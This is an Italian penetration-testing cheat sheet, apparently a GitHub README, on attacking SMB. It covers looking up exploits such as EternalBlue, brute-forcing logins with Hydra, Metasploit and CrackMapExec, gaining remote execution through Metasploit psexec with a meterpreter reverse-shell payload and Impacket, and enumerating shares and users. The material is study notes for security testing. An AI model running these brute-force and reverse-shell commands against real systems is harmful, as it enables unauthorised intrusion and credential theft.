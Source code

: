 <a href="https://github.com/Gigidotexe/Penetration_Test_notes/blob/main/README.md"> Back </a>
## Ricerca Exploit noti
Dopo aver effettuata la scansione del servizio e la sua versione nella fase di Scansione ed Enumerazione, possiamo procedere con la ricerca di exploit noti usando <a href="https://www.exploit-db.com/">Ecploit Database</a> oppure: 
```bash
searchsploit <smb-versione> 
```
> Se restituise un exploit utilizzabile, copia il path e usa `searchsploit -m <path>`

Versioni vulnerabili comuni:
- **SMBv1** ⟶ EternalBlue (MS17-010)
- **Windows XP/2003/7 non patchati** ⟶ buffer overflow
- **vsrvsvc** ⟶ vulnerabilità RPC

Versioni SMB:
- **SMB 1.0** ⟶ insicuro, supporta accessi anonimi, molte vulnerabilità.
- **SMB 2.0/2.1** ⟶ introdotti con Windows Vista e Server 2008, migliorie in sicurezza e prestazioni.
- **SMB 3.0+** ⟶ da Windows 8 in poi, supporto crittografia, multicanale, virtualizzazione.

---

## Brute Force
Molto probabilmente il servizio sará protetto da credenziali e quindi cerchiamo di trovare con un attacco bruteforce
### Hydra
```bash
hydra -L <userList> -P <passwordList> <IP> smb
```

### Metasploit
```bash
use auxiliary/scanner/smb/smb_login
set RHOSTS <IP>
set USER_FILE <user_list>
set PASS_FILE <pass_list>
run
```

### CrackMapExec
strumento da riga di comando scritto in Python, progettato per automatizzare la ricognizione e l’attacco a reti Windows, in particolare in ambienti Active Directory. 
```bash
crackmapexec smb <target> -u <userList> -p <passwordList>
#dopo aver ottenuto delle credenziali
crackmapexec smb <target> -u <username> -p <password> --shares     # elenca condivisioni
crackmapexec smb -u <username> -p <password> <target> --users      # enumera utenti
crackmapexec smb -u <username> -p <password> <target> -x "whoami"  # esegue un comando
```
> È potente, ma anche rumoroso nei log di rete: in un test reale, valuta il rischio di account lockout e allarmi SIEM

---

## PsExec (Metasploit)
Dopo aver scovato delle credenziali possiamo usare uno strumento sviluppato da Sysinternals (Microsoft) che permette di eseguire comandi su un sistema Windows remoto come se li stessi eseguendo in locale.
> Attenzione percè funziona solo con credenziali di livello amministrativo e valide (`ADMIN$`, `IPC$`)
```bash
use exploit/windows/smb/psexec
set RHOSTS <IP>
set SMBUser <username>
set SMBPass <password>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <KaliIP>
set LPORT <Port>
run
```
Esiste anche uno script incluso nel pacchetto Impacket, che replica il comportamento di PsExec di Sysinternals
```basg
psexec.py <username>@<IP> cmd.exe # accesso CMD remoto via SMB
```
Percorso tipico: 
```bash
/usr/share/doc/python3-impacket/examples/psexec.py
```

---


## Enumerazione interna
Per poter enumerare bene, si deve andare piú a fondo e quindi esistono diversi strumenti, ognuno con caratteristiche specifiche che li rendono adatti a compiti complementari
### smbclient
strumento da riga di comando incluso nel pacchetto Samba (su Linux), che permette di connettersi a condivisioni SMB/CIFS su server Windows, Linux o Samba.
```bash
smbclient -L //<target>/ -N                    # condivisioni anonime
smbclient -L <IP> -U <username>                # share disponibili per utente
smbclient //<target>/<share> -U <username>     # accesso alla share, inserisci la password in seguito
```
Comandi interni:
- `?`, `ls`, `get <file>`, `put <file>`, `cd`, `mkdir`, `rmdir`
> File come `*.tar.gz` possono essere estratti con `tar xzf file.tar.gz`

### rpcclient
strumento da riga di comando incluso nel pacchetto Samba, che consente di interagire con i servizi RPC (Remote Procedure Call) dei sistemi Windows.
```bash
rpcclient -U "" <IP>                # connessione null session
rpcclient -U utente <IP>            # connessione usando le credenziali
rpcclient -U utente%password <IP>   # connessione con credenziali insieme
```
Comandi dentro RPC CLient: 
```bash
enumdomusers      # elenca tutti gli utenti del dominio o del sistema locale
enumdomgroups     # elenca tutti i gruppi definiti nel dominio o nella macchina locale
queryuser <RID>   # Permette di ottenere informazioni dettagliate su un singolo utente, partendo dal suo RID
```

### smbmap
strumento da riga di comando scritto in Python che serve per enumerare le condivisioni SMB su sistemi Windows o Samba, e capire che tipo di accesso ha un determinato utente (lettura, scrittura, esecuzione, ecc.).
```bash
smbap -H <IP>
# ma se forniamo delle credenziali ottiene piú dettagli
smbmap -H <IP> -u <username> -p <password>
```
> `R` = lettura <br>
> `W` = scrittura <br>
> `-` = nessun accesso <br>

### enum4linux
strumento da riga di comando, basato su `smbclient`, `rpcclient`, `nmblookup`, usato per enumerare informazioni da sistemi Windows o Samba tramite SMB. Permette di raccogliere dati come utenti, gruppi, condivisioni di rete, nomi NetBIOS, domini, SID e molto altro, anche senza credenziali, sfruttando chiamate RPC e SMB.
```bash
enum4linux <IP>
# ma se forniamo delle credenziali ottiene piú dettagli
enum4linux -u <user> -p <password> <IP>
```

---
